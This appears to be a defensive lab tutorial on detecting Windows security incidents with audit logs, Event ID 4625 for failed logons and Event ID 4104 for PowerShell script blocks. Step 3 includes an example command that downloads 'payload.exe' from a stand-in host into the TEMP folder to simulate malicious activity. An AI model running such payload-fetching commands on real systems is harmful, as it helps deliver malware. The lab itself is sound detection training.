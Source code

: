
## **Preparation:**

Before diving into the lab, ensure the system is logging essential security-related events and the environment is prepared for simulating a basic security incident.

### **Enable Audit Logging:**
1. Open **Local Security Policy** (`secpol.msc`).
2. Navigate to:  
   `Advanced Audit Policy Configuration → Audit Policies → Logon/Logoff`.
3. Enable:
   - **Audit Logon Events** (Success, Failure)
   - **Audit Process Creation**

4. Use Group Policy or Registry to enable:
   - **Script Block Logging** for PowerShell
   - **Module Logging**

---


### **Step 1: Simulate a Failed Login Attempt**
1. On the Windows machine, **lock the system** (`Win + L`).
2. Attempt to log in with an **invalid password** 2–3 times.

### **Step 2: Detect the Incident Using Event Viewer**
1. Open **Event Viewer**.
2. Navigate to:  
   `Windows Logs → Security`
3. Click on **Filter Current Log**, filter by **Event ID 4625** (failed logon).
4. Locate the log entry showing the failed login attempt.
5. Note down:
   - Account Name used
   - Source IP (if any)
   - Logon Type

---

### **Step 3: Simulate a Suspicious PowerShell Command**
Run this from an **elevated PowerShell** session:

```powershell
Invoke-WebRequest -Uri "http://example.com/payload.exe" -OutFile "$env:TEMP\payload.exe"
```
This mimics downloading a suspicious file.

### Step 4: Detect the PowerShell Activity
1. Open Event Viewer.
2. Navigate to:
`Applications and Services Logs → Microsoft → Windows → PowerShell → Operational`
3. Filter by Event ID 4104.
4. Identify the PowerShell command used.
